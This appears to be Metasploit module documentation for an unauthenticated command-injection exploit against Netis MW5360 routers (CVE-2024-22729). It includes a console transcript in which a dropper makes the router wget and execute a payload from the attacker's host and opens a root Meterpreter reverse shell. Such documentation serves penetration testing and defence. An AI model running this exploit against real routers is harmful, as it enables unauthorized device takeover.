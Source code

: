 ```msf
Description:
  Netis router MW5360 has a command injection vulnerability via the password parameter on the login page.
  The vulnerability stems from improper handling of the "password" parameter within the router's web interface.
  The router's login page authorization can be bypassed by simply deleting the authorization header,
  leading to the vulnerability. All router firmware versions up to `V1.0.1.3442` are vulnerable.
  Attackers can inject a command in the 'password' parameter, encoded in base64, to exploit the command injection
  vulnerability. When exploited, this can lead to unauthorized command execution, potentially allowing the attacker
  to take control of the router.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2024-22729
  https://attackerkb.com/topics/MvCphsf4LN/cve-2024-22729
  https://github.com/adhikara13/CVE/blob/main/netis_MW5360/blind%20command%20injection%20in%20password%20parameter%20in%20initial%20settings.md

View the full module info with the info -d command.
```
## Options
### CMD_DELAY
Chained command lines using `;` do not work, so each command need to be executed in a separate request
with delay of 30 seconds of more to avoid session locking using the `CMD_DELAY` option.

## Scenarios
###  Netis MW5360 Router Emulation Linux Dropper -  linux/mipsle/meterpreter_reverse_tcp
```msf
msf exploit(linux/http/netis_unauth_rce_cve_2024_22729) > set target 0
target => 0
msf exploit(linux/http/netis_unauth_rce_cve_2024_22729) > set rhosts 192.168.1.1
rhosts => 192.168.1.1
msf exploit(linux/http/netis_unauth_rce_cve_2024_22729) > set lhost 192.168.1.2
lhost => 192.168.1.2
msf exploit(linux/http/netis_unauth_rce_cve_2024_22729) > exploit

[*] Started reverse TCP handler on 192.168.1.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.1.1:80 can be exploited.
[+] The target appears to be vulnerable. Netis(MW5360)-V1.0.1.3442
[*] Executing Linux Dropper for linux/mipsle/meterpreter_reverse_tcp
[*] Using URL: http://192.168.1.2:8080/IbZMnLDC
[*] Executing wget -qO /tmp/kgfXdZZW http://192.168.1.2:8080/IbZMnLDC
[*] Client 192.168.1.1 (Wget) requested /IbZMnLDC
[*] Sending payload to 192.168.1.1 (Wget)
[*] Executing chmod +x /tmp/kgfXdZZW
[*] Executing /tmp/kgfXdZZW
[+] Deleted /tmp/kgfXdZZW
[*] Meterpreter session 7 opened (192.168.1.2:4444 -> 192.168.1.1:43254) at 2024-05-19 11:51:21 +0000
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
```